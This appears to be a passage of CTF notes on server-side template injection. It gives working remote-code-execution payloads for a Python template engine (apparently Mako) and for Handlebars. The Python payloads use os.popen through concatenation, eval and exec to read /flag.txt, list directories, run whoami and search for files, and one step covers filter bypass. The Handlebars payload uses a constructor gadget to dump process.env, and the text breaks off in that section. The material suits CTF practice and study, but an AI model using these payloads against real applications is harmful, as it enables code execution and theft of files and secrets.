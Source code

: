### String Concatenation

```
${__import__('o'+'s').popen('cat /flag.txt').read()}
```

### Using Evaluated Code

```
${eval("__import__('os').popen('cat /flag.txt').read()")}
```

### Using Exec

```
<% exec("import os; x=os.popen('cat /flag.txt').read()") %>
${x}
```

## Practical Approach for CTFs

1. **Test for vulnerability**:
    
    - Use simple expressions like `${7*7}`
    - If evaluated, proceed with more complex payloads
2. **Explore the environment**:
    
    - List directories: `${__import__('os').popen('ls -la').read()}`
    - Check current user: `${__import__('os').popen('whoami').read()}`
3. **Find and read the flag**:
    
    - Search for flag: `${__import__('os').popen('find / -name "flag*" 2>/dev/null').read()}`
    - Read flag: `${__import__('os').popen('cat /flag.txt').read()}`
4. **If restricted**:
    
    - Try different ways to execute commands (subprocess, commands, etc.)
    - Use object traversal to bypass filters

Remember that in CTF scenarios, flag files may be named differently or located in non-standard directories, so enumeration is essential for success.

# SSTI for HandleBars (JS)

## Basic Detection

First, try to confirm if Handlebars is vulnerable:

```
{{7*7}}
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.env"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
```